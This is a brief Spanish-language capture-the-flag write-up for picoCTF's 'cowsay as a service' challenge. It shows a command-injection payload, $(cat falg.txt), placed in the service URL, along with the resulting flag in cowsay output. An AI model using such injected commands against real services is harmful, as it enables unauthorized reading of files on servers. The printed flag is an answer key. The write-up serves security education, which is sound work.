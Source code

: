 ## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solucion

Ingresamos caas.mars.picoctf.net/cowsay/$(cat falg.txt)

y obtenemos 

```
 _________________________________________
/ picoCTF{moooooooooooooooooooooooooooooo \
\ oooooooooooooooooooooooooooooo0o}       /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

## Notas adicionales
## Referencias